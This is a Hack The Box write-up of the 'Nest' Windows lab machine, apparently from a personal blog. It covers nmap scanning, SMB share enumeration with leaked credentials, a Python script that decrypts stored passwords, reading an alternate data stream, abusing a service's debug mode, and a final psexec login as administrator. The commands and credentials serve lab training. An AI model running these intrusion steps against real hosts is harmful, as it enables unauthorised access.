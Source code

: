 ```yaml
---
title: Nest - HTB
date: 2025-04-28 14:00:00 +0200
categories: [Hack The Box, Windows]
tags: 
toc: true
comments: true
image: ./assets/img/attachments/nest-1.png
imageNameKey: nest
---
```


In this writeup, I’ll walk through how I solved the Nest machine from Hack The Box, covering the vulnerabilities, exploits, and techniques used. Its 4/1000
# Port Enumeration 
First step is to run full port scan 
```bash
nmap 10.129.234.96 -p- -Pn -A -T5
```
![w](/assets/img/attachments/nest.png)

We have open SMB port and another custom service.
I used anonymous login for smb
```bash
 smbclient -L \\10.129.234.96 
```
![w](/assets/img/attachments/nest-2.png)

I will check Users, Secure and Data
![w](/assets/img/attachments/nest-3.png)

Found this at Data shares, and it contains temp password
![w](/assets/img/attachments/nest-4.png)

Will use this credentials to enumerate smb much further
```bash
smbclient //10.129.234.96/<shares> -U TempUser%welcome2019
```

Then i downloaded all accessible files on every share
```bash
smb: \> prompt OFF
smb: \> recurse ON 
smb: \> mget *
```

# User Credentials
In RU_config.xml there's hashed password
![w](/assets/img/attachments/nest-6.png)

But couldn't crack it, with more enumeration:
![w](/assets/img/attachments/nest-8.png)

I found this files which says there's user in IT shares called Carl, Since i couldn't list IT in Secure$ share, I will try to access carl directly
![w](/assets/img/attachments/nest-9.png)

It worked. Let's download all the files we can get.
![w](/assets/img/attachments/nest-10.png)

After some enumeration, I found this file which contains the code used for encrypting the password i found earlier, now we can decode it!

```python
import base64
import hashlib
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

def decrypt(ciphertext_b64):
    # Parameters from the VB.NET code
    passphrase = "N3st22"
    salt = b"88552299"
    iterations = 2
    init_vector = b"464R5DFA5DL6LE28"
    key_size = 32  # 256 bits = 32 bytes

    # Derive the key using PBKDF2
    key = PBKDF2(passphrase, salt, dkLen=key_size, count=iterations)

    # Decode the Base64 ciphertext
    ciphertext = base64.b64decode(ciphertext_b64)

    # Create AES cipher in CBC mode
    cipher = AES.new(key, AES.MODE_CBC, init_vector)

    # Decrypt the ciphertext
    decrypted = cipher.decrypt(ciphertext)

    # Remove possible padding (PKCS7/PKCS5 padding assumed)
    padding_length = decrypted[-1]
    decrypted_text = decrypted[:-padding_length].decode('ascii')

    return decrypted_text

if __name__ == "__main__":
    encrypted_value = "fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE="
    decrypted_value = decrypt(encrypted_value)
    print("Decrypted Password:", decrypted_value)

```
![w](/assets/img/attachments/nest-11.png)

Then i logged in smb with this new credentials and found user.txt
![w](/assets/img/attachments/nest-12.png)
# Privialage Escalatiom
Inside C.Smith directory 
![w](/assets/img/attachments/nest-13.png)

Debug Mode password file was empty, but the hint said we can find more info using allinfo in smb
![w](/assets/img/attachments/nest-14.png)
```bash
smb:> get "Debug Mode Password.txt":Password:$DATA
```
Inside the file we got this password, and if you remember we find this pass in directory called HQK Reporting, and this was the service running on port 4386
![w](/assets/img/attachments/nest-15.png)

From nmap:
```bash
ORT     STATE SERVICE VERSION
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>

```

```bash
ncat --crlf 10.129.234.96 4386
```
![w](/assets/img/attachments/nest-16.png)

```bash
HQK Reporting Service V1.2

>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>SERVICE

--- HQK REPORTING SERVER INFO ---

Version: 1.2.0.0
Server Hostname: HTB-NEST
Server Process: "C:\Program Files\HQK\HqkSvc.exe"
Server Running As: Service_HQK
Initial Query Directory: C:\Program Files\HQK\ALL QUERIES

>SETDIR ..
                                                                                                                                              
Current directory set to HQK                                                                                                                  
>LIST                                                                                                                                         
                                                                                                                                              
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command                                      
                                                                                                                                              
 QUERY FILES IN CURRENT DIRECTORY                                                                                                             
                                                                                                                                              
[DIR]  ALL QUERIES                                                                                                                            
[DIR]  LDAP                                                                                                                                   
[DIR]  Logs                                                                                                                                   
[1]   HqkSvc.exe                                                                                                                              
[2]   HqkSvc.InstallState                                                                                                                     
[3]   HQK_Config.xml                                                                                                                          
                                                                                                                                              
Current Directory: HQK                                                                                                                        
>SETDIR LDAP                                                                                                                                  
                                                                                                                                              
Current directory set to LDAP                                                                                                                 
>LIST                                                                                                                                         
                                                                                                                                              
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command                                      

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=

```

And we found administrator password on local 389, and the password is in the same format of the first pass of C.Smith so lets use the same script to decode and decrypt it
It didnt work!

![w](/assets/img/attachments/nest-17.png)

Since its .NET assembly i will use Ilspy
![w](/assets/img/attachments/nest-18.png)

In it I found the algorithm used for this password encryption, then i used the decryption part of the code to get the decrypted password
```bash
XtH4nkS4Pl4y1nGX
```

To get root flag 
```bash
psexec.py 'administrator:XtH4nkS4Pl4y1nGX@10.129.234.96' 
```

![w](/assets/img/attachments/nest-21.png)

And Finally rooted!
